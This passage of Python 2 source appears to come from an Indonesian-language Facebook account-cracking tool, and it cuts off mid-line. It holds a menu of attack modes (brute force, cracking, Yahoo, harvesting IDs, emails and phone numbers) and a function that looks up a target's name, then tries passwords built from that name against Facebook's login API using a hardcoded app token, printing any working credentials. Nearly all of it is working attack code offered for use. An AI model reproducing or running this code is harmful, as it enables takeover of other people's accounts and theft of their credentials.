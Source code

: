 '\x1b[1;37;40m6. Ambil id/email/hp'     print '\x1b[1;31;40m0. Kembali'     print     hack_pilih()   def hack_pilih():     hack = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if hack == '':         print '\x1b[1;91m[!] Jangan kosong'         hack_pilih()     else:         if hack == '1':             mini()         else:             if hack == '2':                 crack()                 hasil()             else:                 if hack == '3':                     super()                 else:                     if hack == '4':                         brute()                     else:                         if hack == '5':                             menu_yahoo()                         else:                             if hack == '6':                                 grab()                             else:                                 if hack == '0':                                     menu()                                 else:                                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + hack + ' \x1b[1;91mTidak ada'                                     hack_pilih()   def mini():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         os.system('reset')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         print '\x1b[1;91m[ INFO ] Akun target harus berteman dengan akun anda dulu !'         try:             id = raw_input('\x1b[1;91m[+] \x1b[1;92mID Target \x1b[1;91m:\x1b[1;97m ')             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')             r = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)             a = json.loads(r.text)             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNama\x1b[1;97m : ' + a['name']             jalan('\x1b[1;91m[+] \x1b[1;92mMemeriksa \x1b[1;97m...')             time.sleep(2)             jalan('\x1b[1;91m[+] \x1b[1;92mMembuka keamanan \x1b[1;97m...')             time.sleep(2)             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mMohon Tunggu sebentar \x1b[1;97m...')             print 40 * '\x1b[1;97m\xe2\x95\x90'             pz1 = a['first_name'] + '123'             data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + id + '&amp;locale=en_US&amp;password=' + pz1 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')             y = json.load(data)             if 'access_token' in y:                 print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                 print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1                 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                 menu_hack()             else:                 if 'www.facebook.com' in y['error_msg']:                     print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                     print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                     print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1                     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                     menu_hack()                 else:                     pz2 = a['first_name'] + '12345'                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + id + '&amp;locale=en_US&amp;password=' + pz2 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                     y = json.load(data)                     if 'access_token' in y:                         print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                         print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2                         raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                         menu_hack()                     else:                         if 'www.facebook.com' in y['error_msg']:                             print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                             print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                             print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2                             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                             menu_hack()                         else:                             pz3 = a['last_name'] + '123'                             data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + id + '&amp;locale=en_US&amp;password=' + pz3 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                             y =